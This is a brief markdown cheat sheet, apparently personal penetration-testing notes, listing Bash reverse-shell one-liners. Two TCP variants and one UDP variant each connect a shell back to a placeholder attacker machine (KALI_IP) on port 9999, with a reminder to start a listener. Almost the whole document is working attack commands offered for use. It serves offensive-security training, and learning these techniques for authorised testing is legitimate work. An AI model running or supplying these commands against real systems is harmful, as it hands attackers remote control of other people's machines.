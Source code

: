 ```yaml
---
title: Bash Reverse Shells
description: 
draft: 
tags: 
date: 2024-10-18
---
```


## Bash TCP Reverse Shell
These TCP reverse shells will attempt to make a connection to your KALI machine using port 9999. Make sure to setup a TCP Listener.

```bash
sh -i >& /dev/tcp/KALI_IP/9999 0>&1
```

```bash
0<&196;exec 196<>/dev/tcp/KALI_IP/9999; sh <&196 >&196 2>&196
```
## Bash UDP Reverse Shell
The UDP shells will attempt to make a connection to your KALI machine using port 9999. Make sure to setup a UDP Listener.

```bash
sh -i >& /dev/udp/KALI_IP/9999 0>&1
```

